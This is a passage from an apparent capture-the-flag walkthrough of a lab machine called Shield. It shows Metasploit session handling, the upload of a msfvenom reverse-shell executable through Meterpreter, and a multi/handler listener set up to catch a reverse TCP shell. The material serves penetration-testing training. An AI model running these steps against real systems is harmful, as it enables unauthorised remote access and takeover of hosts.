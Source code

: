 {% hint style="warning" %}
If you have problems running msfvenom within Metasploit, you can run it from the command line in bash
{% endhint %}

Once the payload is created, we can upload it to the Shield machine.  We need to get back into the current Meterpreter session first. We do that with the sessions command. Just typing sessions will list the current sessions available. We can interact with a session using the **sessions -i \<session number> command**:

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > sessions

Active sessions
===============

  Id  Name  Type                     Information        Connection
  --  ----  ----                     -----------        ----------
  1         meterpreter php/windows  IUSR (0) @ SHIELD  10.10.14.13:4444 -> 
                                                        10.10.10.29:57574 
                                                        (10.10.10.29)

msf6 exploit(unix/webapp/wp_admin_shell_upload) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

Once back in the meterpreter session , we can upload the revshell.exe using the meterpreter command upload:

```
meterpreter > upload revshell.exe
[*] uploading : revshell.exe -> revshell.exe
[*] Uploaded -1.00 B of 202.00 KiB (-0.0%): revshell.exe -> revshell.exe
[*] uploaded : revshell.exe -> revshell.exe
meterpreter >
```

Before you run this shell, you want to run another exploit/multi/handler to handle the reverse shell. We need to get out of the meterpreter session to get back to the Metasploit prompt by using the background command "bg". We can then use exploit/multi/handler and set the options to match what we set for the reverse shell with msfvenom above.

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(unix/webapp/wp_admin_shell_upload) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set Payload windows/x64/meterpreter_reverse_tcp
Payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf6 exploit(multi/handler) > set LPORT 6001
LPORT => 6001
We can now start the revese shell listener using the command "run -j".
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:6001
```

